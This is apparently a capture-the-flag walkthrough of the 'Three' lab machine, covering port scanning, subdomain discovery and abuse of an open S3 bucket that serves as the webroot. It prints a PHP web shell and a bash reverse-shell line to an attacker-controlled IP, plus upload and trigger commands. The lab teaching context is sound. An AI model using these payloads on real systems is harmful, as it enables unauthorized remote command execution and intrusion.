 # Three
#startingpoint 
#veryeasy 
#web
#php
#aws
#subdomains

### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are two open ports,  port 22 running ssh service and also port 80 running a Apache webserver.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:43 CET
Nmap scan report for 10.129.79.254
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Exploring the website
Since we found an standard web open port, we try to enter the website. 
After performing a manual research on the website we can find a domain in the contacts part which is `thetoppers.htb`

We need to explore more information with this domain so we add it to /etc/hosts with the following command `echo "${TARGET} thetoppers.htb" | sudo tee -a /etc/hosts`

### Subdomain discover
One thing that we must try once we have a domain is search if there are any associated common subdomains, in order to do this we execute the following command

`gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/11/16 12:17:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2023/11/16 12:17:51 Finished
===============================================================
```
We found a subdomain which returns a 404 error, so as we did before we add it to /etc/hosts, to do it we use this command `echo "${TARGET} s3.thetoppers.htb" | sudo tee -a /etc/hosts`

### AWS S3 website

As we did before we enter the new website, it says that is running so we do a little of research to find that we are working with a AWS S3, this is used as a storage service, in this particular case as a webserver. To interact with it we need to use the `aws` terminal tool, once we have the tool installed we need to setup it so we use the following command.

```
aws configure
AWS Access Key ID [None]: tmp
AWS Secret Access Key [None]: tmp
Default region name [None]: tmp
Default output format [None]: tmp
```
Once the aws cli is setup we can perform commands, first of all we want to know all the S3 endpoints so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls`

```
2023-11-16 11:42:35 thetoppers.htb

```
It seems that there is only one endpoint so now we are going to explore this one, to do so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

```
                          PRE images/
2023-11-16 11:42:35          0 .htaccess
2023-11-16 11:42:35      11952 index.php
```
We discover that the S3 is acting as the webroot, given this fact and the fact that we can do whatever we want to with the S3, we can upload a malicious code that let us run remote commands on the server. As the webserver is running .php we need to write the code in PHP, the following code allow us to run commands from the web url:

`<?php system($_GET["cmd"]); ?>`

Once written the code to a file `shell.php` we can upload it to the AWS S3 by running `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

To test it we can access the following url to test if we run commands as the webserver user, `http://thetoppers.htb/shell.php?cmd=id`

### Reverse shell

Now that we are allowed to run commands we are going to get a reverse shell on the server, to do this first we write the reverse shell code, it looks like this:
```
#!/bin/bash 
bash -i >& /dev/tcp/MYVPNIP/1337 0>&1
```

Once we have created the script we can upload it to the server as shown before, by running `aws --endpoint=http://s3.thetoppers.htb s3 cp reverseShell.sh s3://thetoppers.htb`

Now we need to start a listener in our machine, to do so execute `nc -nvlp 1337`

To start the reverse shell we can enter in the following url `http://thetoppers.htb/shell.php?cmd=cat%20reverseShell.sh|bash`

Once inside the reverse shell we can run the following commands to obtain the desired flag value
```
ls
cd ..
ls
cat flag.txt
```
After getting the flag we can finally clean our pentesting environment by removing the written scripts and deleting the new domains of /etc/hosts
